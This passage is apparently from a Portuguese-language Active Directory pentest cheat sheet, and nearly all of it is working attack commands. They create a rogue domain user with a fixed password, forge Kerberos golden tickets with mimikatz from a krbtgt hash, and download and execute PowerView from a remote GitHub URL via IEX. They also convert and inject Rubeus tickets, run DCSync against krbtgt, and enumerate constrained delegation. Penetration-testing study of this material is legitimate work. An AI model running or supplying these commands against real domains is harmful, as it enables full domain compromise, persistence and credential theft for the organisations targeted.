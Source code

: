 ```
$PASSWORD= ConvertTo-SecureString -AsPlainText -Force -String 123qwe..
New-ADUser -Name "pentester" -Description "Pentester User" -Enabled $true -AccountPassword $PASSWORD
```
OPÇÃO 3 - ACESSAR REMOTAMENTE VIA PSREMOTE
```
Enter-Pssession -computername tech-dc01
```
OPÇÃO 4 - CRIAR GOLDEN TICKETS
```
kerberos::golden /User:vegeta /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /krbtgt:28ec87e3414d019c944786bf447fd666 id:500 /groups:512 /startoffset:0 /ending:600 /renewmax:10080 /ptt
```
OPÇÃO 5 - VERIFICAR ONDE SOU ADMINISTRADOR LOCAL
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1")
FIND-LOCALADMINACCESS
```
##### UNCONSTRAINED DELEGATION RUBEUS - CONVERTER TICKET DO RUBEUS BASE64 PARA MIMIKATZ KIRBI
```
[IO.File]::WriteAllBytes("C:\ticket.kirbi", [Convert]::FromBase64String("doIFqjCCBaRFQ0guTE9DQUw="))
```
IMPORTAR NO MIMIKATZ: (USUARIO NORMAL) E FAZER O DCSYNC:
```
Invoke-Mimikatz
kerberos::ptt ticket.kirbi
```
```
lsadump::dcsync /user:tech\krbtgt
```
##### UNCONSTRAINED DELEGATION RUBEUS - CONVERTER TICKET KIRBI PARA BASE64 (SÓ PRA CONSTAR E FICAR JUNTO)
```
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\ticket.kirbi")); 
```
## CONSTRAINED DELEGATION
If you have an account or computer with the constrained delegation privilege, it is possible to impersonate any other user and authenticate yourself to a service where the user is allowed to delegate.
##### CONSTRAINED DELEGATION - FIND COMPUTERS AND USERS WITH CONSTRAINED DELEGATION
ENCONTRAR APENAS COMPUTADORES
```
$FormatEnumerationLimit=-1
Get-ADComputer -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | Out-String -Width 4096
Get-ADComputer -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | fl | Out-String -Width 4096
```
ENCONTRAR APENAS USUARIOS
```
$FormatEnumerationLimit=-1
Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | Out-String -Width 4096
Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties * | select samaccountname, msDS-AllowedToDelegateTo | fl | Out-String -Width 4096
```
ENCONTRAR COMPUTADORES E USUARIOS
```
$FormatEnumerationLimit=-1
```